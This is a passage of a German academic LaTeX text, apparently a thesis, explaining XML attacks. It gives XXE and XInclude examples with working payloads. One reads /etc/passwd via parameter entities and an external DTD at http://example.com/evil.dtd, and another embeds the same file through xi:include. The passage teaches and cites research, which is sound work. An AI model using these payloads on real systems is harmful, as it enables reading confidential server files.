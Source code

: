 \begin{figure}[h!]
\begin{example}
    In der \acrshort{dtd} des \acrshort{xml}-Dokuments definiert der Angreifer Parameter Entities für den Inhalt der Datei \texttt{/etc/passwd} sowie für Beginn und Ende einer CDATA-Sektion.

    \begin{verbatim}
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>">
  <!ENTITY % dtd SYSTEM "http://example.com/evil.dtd">
  %dtd;
]>
<root>&all;</root>
    \end{verbatim}
    Mithilfe einer externen \acrshort{dtd}-Datei, die vom Angreifer unter der im Dokument angegeben \acrshort{url} abgelegt wurde, werden die einzelnen Parameter Entities zusammengesetzt.

    \begin{verbatim}
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%file;%end;">
    \end{verbatim}
\end{example}
\end{figure}

\paragraph{\acrshort{xinclude}}

Auch bei Angriffen auf Basis von \gls{xinclude} enthält das zu parsende \acrshort{xml}-Dokument eine Anweisung zum Einbetten einer lokalen Datei~\cite{xinclude}. Im Gegensatz zu klassischen \acrshort{xxe}-Angriffen kann der eingebette Inhalt jedoch beliebiger Text sein, darf also z.B. auch ungültiges \acrshort{xml}-Markup enthalten.~\cite[S.~80]{spaeth2015dtdattacks}

\begin{figure}[h!]
\begin{example} Der \acrshort{xml}-Parser wird angewiesen, den Inhalt der Datei \texttt{/etc/passwd} in das Dokument einzubetten~\cite[Abschn.~3.1]{xinclude}.
    \begin{verbatim}
<?xml version="1.0" encoding="UTF-8"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text" />
</root>
    \end{verbatim}
\end{example}
\end{figure}

